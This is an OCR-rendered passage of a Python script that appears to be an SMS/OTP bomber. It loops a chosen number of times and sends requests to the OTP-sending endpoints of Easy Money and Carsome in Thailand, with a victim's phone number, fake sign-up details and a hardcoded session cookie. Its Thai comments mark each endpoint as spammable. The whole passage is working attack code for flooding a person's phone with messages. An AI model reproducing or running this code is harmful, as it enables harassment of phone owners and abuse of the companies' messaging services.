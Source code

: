     i = 0

    

    while ( i < int(count) ):

        i += 1

        # Easy Money ( รัวได้ )

        try:

            auth01 = requests.post("https://www.easymoney.co.th/estimate/actionSendOtp",data=f"gg_token&name=cybersafe&surname=cybersafe&email=rjrockyou@gmail.com&phone={phone}&area_id=2&password=Hack80&password_chk=Hack80&code=&condition=1",headers={"accept":"application/json, text/javascript, */*; q=0.01","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Mobile Safari/537.36","cookie":"PHPSESSID=1933025720c12fcbb618a207ad775e54;_gcl_au=1.1.506859633.1650848781;_fbp=fb.2.1650848782133.743024538;_ga=GA1.3.1379383593.1650848782;pdpa=1;_gid=GA1.3.380431543.1651807350;_gat_UA-182229042-1=1"})

            print(auth01.status_code)

            print(auth01.json())

        except:

            print("Fail :(")

        # Carsome ( รัวได้ )

        try:

            auth02 = requests.post("https://www.carsome.co.th/website/login/sendSMS", json={"username": f"{phone}", "optType": 0})

            print(auth02.status_code)

            print(auth02.json())

        except:

            print("Fail :(")

        try:

            # Carsome re send

            auth03 = requests.post("https://www.carsome.co.th/website/login/sendSMS", json={"username": f"{phone}", "optType": 0})

            print(auth03.status_code)

            print(auth03.json())

        except:

            print("Fail :(")
